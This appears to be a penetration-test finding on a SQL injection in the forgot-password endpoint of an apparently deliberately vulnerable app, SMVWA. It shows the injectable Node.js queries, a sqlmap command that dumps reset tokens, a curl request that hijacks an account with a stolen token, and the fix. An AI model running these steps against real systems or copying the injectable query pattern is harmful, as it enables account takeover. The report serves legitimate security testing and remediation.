

# SQLi-03 — SQL Injection in Forgot Password Endpoint

## 1. Vulnerability Name
SQL Injection (Boolean-Based Blind / UNION) — `POST /forgot-password`

## 2. Brief Description
The `email` parameter in the password-reset request is interpolated directly into a `SELECT` query without parameterisation. An unauthenticated attacker can enumerate tables and read reset tokens from the `password_resets` table, then use a valid token to hijack any user account — including the administrator's.

## 3. Environment & Assumptions
- Application: SMVWA (commit SHA: `7846ecb14448da0f2bc4822d25feda988dc92ad6`)
- Testing tools: sqlmap 1.10#stable, curl
- User / test context: **no authentication required** (public endpoint)
- Database: PostgreSQL 15
- Endpoint: `POST http://localhost:3000/forgot-password`

## 4. Steps to Reproduce (PoC)

### Vulnerable code
`vulnerable/backend/routes/auth.js`, lines ~63 and ~70:
```js
const result = await pool.query(`SELECT id FROM users WHERE email = '${email}'`);
// ...
await pool.query(`INSERT INTO password_resets (user_id, token) VALUES (${userId}, '${token}')`);
```

### Step 1 — Dump password_resets via sqlmap
```bash
sqlmap -u "http://localhost:3000/forgot-password" \
  --data='{"email":"test@test.com"}' \
  --headers="Content-Type: application/json" \
  --method=POST \
  -p email \
  --dbms=PostgreSQL \
  -T password_resets \
  --dump \
  --level=3 --risk=2 \
  --batch
```

### Step 2 — Hijack account using the stolen token
```bash
curl -s -X POST http://localhost:3000/reset-password \
  -H "Content-Type: application/json" \
  -d '{"token":"<STOLEN_TOKEN>","new_password":"HackerPass1!"}'
```

## 5. Evidence (Artifacts)
See: [`artifacts/sqlmap_output.txt`](artifacts/sqlmap_output.txt)


## 6. Impact (CIA + Business)
- **Confidentiality:** Password reset tokens exposed — any account (including admin) can be taken over without knowing the password.
- **Integrity:** Account takeover → profile, posts, and settings modification.
- **Availability:** Mass requests can exhaust the DB connection pool.
- **Business impact:** Full account hijack without knowing the password; privilege escalation to admin.

## 7. Risk Rating (CVSS 3.1)
```
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:L
Score: 9.4 — CRITICAL
```

## 8. Recommended Mitigation
```js
// BEFORE (vulnerable):
const result = await pool.query(`SELECT id FROM users WHERE email = '${email}'`);

// AFTER (safe):
const result = await pool.query('SELECT id FROM users WHERE email = $1', [email]);
```

## 9. Remediation Guidance
1. Parameterise both queries in the forgot-password handler.
2. Use cryptographically secure tokens (`crypto.randomBytes(32).toString('hex')`) instead of a 6-digit number.
3. Set a TTL on tokens (e.g. 15 minutes) and invalidate after single use.
4. Remove `debug_token` from the JSON response — never expose reset tokens in production.
